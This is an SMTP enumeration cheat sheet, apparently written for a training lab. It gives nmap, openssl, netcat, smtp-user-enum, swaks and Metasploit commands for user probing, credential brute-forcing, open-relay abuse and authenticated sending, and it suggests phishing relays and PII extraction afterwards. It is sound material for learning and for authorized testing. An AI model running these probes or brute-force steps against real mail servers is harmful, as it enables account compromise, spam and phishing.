 # 0x06 - SMTP enumeration

Below I preserved your original notes (above) exactly as you wrote them. The section below is a merged, cleaned, and expanded version that organizes steps, commands, and native exploitation approaches for lab and engagement use.

## What is SMTP?

SMTP (Simple Mail Transfer Protocol) is the protocol used to send email between mail servers. Common server software includes Postfix, Exim, Sendmail, and Microsoft Exchange.

Why enumerate SMTP?

- Fingerprinting mail server software and versions.
- Enumerating valid mailboxes/users (VRFY/EXPN or RCPT-based probing).
- Finding misconfigurations (open relay, weak TLS, permissive auth).
- Obtaining/validating credentials that can be used for sending mail or accessing IMAP/POP3.

Default ports

- 25 — SMTP (plain / STARTTLS)
- 465 — SMTPS (implicit TLS)
- 587 — Submission (STARTTLS, authenticated)

## High-level process

1. Discovery & versioning (nmap + NSE)
2. Banner and TLS inspection (openssl s_client)
3. Manual interaction (telnet/nc) to test VRFY/EXPN/RCPT
4. Automated enumeration (smtp-user-enum, nmap scripts, Metasploit)
5. Authentication testing (swaks, Metasploit smtp_login)
6. Abuse vectors (open relay, authenticated sending) and post-enum (IMAP/POP3)

## Commands and examples

1) Discovery / fingerprinting

```bash
# quick connectivity
nc -vz demo.ine.local 25

# version + NSE checks
nmap -sV -p 25,465,587 --script=banner,smtp-commands,smtp-enum demo.ine.local
```

Sample expected output (nmap NSE):

```
PORT    STATE SERVICE
25/tcp  open  smtp
| smtp-commands:
|   supported command: EHLO, MAIL, RCPT, DATA, VRFY, EXPN, STARTTLS
|_  STARTTLS supported
| smtp-enum:
|   Found 3 users: alice, bob, eve
```

2) Banner + STARTTLS inspection

```bash
openssl s_client -starttls smtp -crlf -connect demo.ine.local:25

# implicit TLS on 465
openssl s_client -connect demo.ine.local:465
```

Look for SANs/CN, weak ciphers, TLS version, and issuer information.

3) Manual protocol checks (VRFY / RCPT)

Use `nc` or `telnet` to talk directly to the MTA and observe responses:

```bash
nc demo.ine.local 25

# then type:
EHLO attacker.example
VRFY alice
RCPT TO:<alice@example.com>
```

Interpretation:

- 250 indicates success (likely valid user).
- 550 indicates unknown recipient.
- Some servers disable VRFY/EXPN; use `RCPT TO` probing instead.

4) Automated enumeration

smtp-user-enum (classic):

```bash
smtp-user-enum -M RCPT -U users.txt -t demo.ine.local
smtp-user-enum -M VRFY -U users.txt -t demo.ine.local
```

nmap script (smtp-enum):

```bash
nmap -p 25 --script=smtp-enum --script-args='smtp-enum.usersdb=/usr/share/wordlists/smtp-users.txt' demo.ine.local
```

swaks (diagnostics & auth checks):

```bash
swaks --server demo.ine.local:25 --from test@attacker.com --to victim@example.com

# auth test
swaks --server demo.ine.local:25 --auth LOGIN --auth-user alice --auth-password 'P@ssw0rd'
```

5) Metasploit quick flow

```bash
msfconsole -q
workspace -a smtp-demo
setg RHOSTS demo.ine.local

# version
use auxiliary/scanner/smtp/smtp_version
run

# enumeration
use auxiliary/scanner/smtp/smtp_enum
set USER_FILE /path/to/users.txt
set THREADS 10
run

# auth brute (careful)
use auxiliary/scanner/smtp/smtp_login
set USER_FILE /path/to/users.txt
set PASS_FILE /path/to/passwords.txt
run
```

Notes: `smtp_enum` can use VRFY/EXPN/RCPT techniques; `smtp_login` will attempt AUTH mechanisms.

6) Native exploitation / abuse examples

- RCPT-based mailbox probing (bash loop):

```bash
while read user; do
  printf "EHLO test.example\r\nMAIL FROM:<me@test.example>\r\nRCPT TO:<${user}@example.com>\r\nQUIT\r\n" | nc demo.ine.local 25 | grep -q "250" && echo "FOUND: ${user}" || echo "NOTFOUND: ${user}"
done < users.txt
```

- Open-relay test (swaks or netcat):

```bash
swaks --from test@attacker.com --to victim@external.com --server demo.ine.local:25

printf "HELO attacker\r\nMAIL FROM:<test@attacker.com>\r\nRCPT TO:<victim@external.com>\r\nDATA\r\nSubject: test\r\n\r\nHello\r\n.\r\nQUIT\r\n" | nc demo.ine.local 25
```

- Authenticated sending (Python example):

```python
import smtplib

server = 'demo.ine.local'
port = 587
user = 'alice'
passwd = 'P@ssw0rd'

s = smtplib.SMTP(server, port)
s.ehlo()
s.starttls()
s.login(user, passwd)
s.sendmail('attacker@example.com', 'victim@example.com', 'Subject: test\n\nThis is a test')
s.quit()
```

Note: SMTP itself is not for mailbox reads — use IMAP/POP3 if you need to inspect messages.

## Post-enumeration and pivot ideas

- If credentials are valid: try IMAP/POP3 to read mailboxes, use as phishing relay (with authorization), or extract tokens and PII.
- If open relay: document exploitation steps and capture an example message for reporting.

## Defenses & detection

- Disable/limit VRFY/EXPN; rate-limit RCPT checks.
- Enforce STARTTLS and strong ciphers.
- Require authentication for relaying; monitor outbound mail patterns.

## Troubleshooting & tips

- Use RCPT-based checks when VRFY is disabled.
- Keep thread counts low to avoid lockouts or IDS triggering.
- Test authenticated flows only with explicit permission.

## Quick cheat-sheet

```bash
nmap -sV -p 25,465,587 --script=smtp-commands,smtp-enum demo.ine.local
openssl s_client -starttls smtp -connect demo.ine.local:25
nc demo.ine.local 25
smtp-user-enum -M RCPT -U users.txt -t demo.ine.local
swaks --server demo.ine.local:25 --auth LOGIN --auth-user alice --auth-password 'P@ss'
```
